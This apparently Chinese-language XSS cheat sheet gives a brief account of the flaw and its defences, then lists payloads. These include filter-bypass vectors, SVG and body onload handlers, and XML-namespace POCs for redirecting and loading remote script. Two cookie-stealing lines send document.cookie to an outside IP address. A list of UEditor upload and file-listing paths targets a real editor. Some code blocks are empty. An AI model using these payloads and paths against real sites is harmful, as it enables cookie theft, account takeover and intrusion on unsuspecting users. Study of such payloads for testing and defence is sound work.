

## XSS原理

服务器对用户提交的数据过滤不严，导致浏览器把用户的输入当成了JS代码并直接返回给客户端执行，从而实现**对客户端的攻击**目的。

## XSS漏洞防御

1、对输入和URL参数进行过滤(白名单和黑名单)
检查用户输入的数据中是否包含一些特殊字符，如<、>、’、“等，发现存在特殊字符，将这些特殊字符过滤或者编码。

2、HTML实体编码
字符串js编码转换成实体html编码的方法（防范XSS攻击）
https://www.cnblogs.com/dearxinli/p/5466286.html

3、对输出内容进行编码
在变量输出到HTML页面时，可以使用编码或转义的方式来防御XSS攻击。

```
（1）<script>alert('XSS')</script>                      //简单弹框
（2）<ScRiPt>AlErt('XSS')</ScRiPt>                      //过滤了大小
（3）                //img 标签 进行绕过
（4）javascript:alert('xss')                          //使用 Javascript 的尾协议
（5）' onclick=' alert("xss")                        //利用 href 属性值来进行xss
```

```
<script>alert(1)</script>
```

```
"><script>alert(1)</script><"
```

```

```

```
<svg onload=alert(1)>
```

```
<svg onload="alert(1)">
<svg onload="alert(1)"//
```

```
<body οnlοad=alert(1)>
<body οnpageshοw=alert(1)>
```

上传到服务器

```
<script>document.location.href="http://150.158.146.137:8888?cookie="+document.cookie</script>
```

```

```

```
<body οnlοad="window.location.href='http://150.158.146.137:8888?cookie='+document.cookie"></body>
```


### 常见的xml弹窗POC:

弹窗xss:

```xml
<html>
<head></head>
<body>
<something:script xmlns:something="http://www.w3.org/1999/xhtml"> alert(1);
</something:script>
</body>
</html>
```

### URL跳转:

```xml
<html>
<head></head>
<body>
<something:script xmlns:something="http://www.w3.org/1999/xhtml"> window.location.href="https://www.t00ls.net/";
</something:script>
</body>
</html>
```

### 远程加载Js:

```xml
<html>
<head></head>
<body>
<something:script src="http://xss.com/xss.js" xmlns:something="http://www.w3.org/1999/xhtml">
</something:script>
</body>
</html>
```

### 常用的上传路径：

```bash
/ueditor/index.html
/ueditor/asp/controller.asp?action=uploadimage
/ueditor/asp/controller.asp?action=uploadfile
/ueditor/net/controller.ashx?action=uploadimage
/ueditor/net/controller.ashx?action=uploadfile
/ueditor/php/controller.php?action=uploadfile
/ueditor/php/controller.php?action=uploadimage
/ueditor/jsp/controller.jsp?action=uploadfile
/ueditor/jsp/controller.jsp?action=uploadimage
```

### 常用列出获取路径：

```bash
/ueditor/net/controller.ashx?action=listfile
/ueditor/net/controller.ashx?action=listimage
```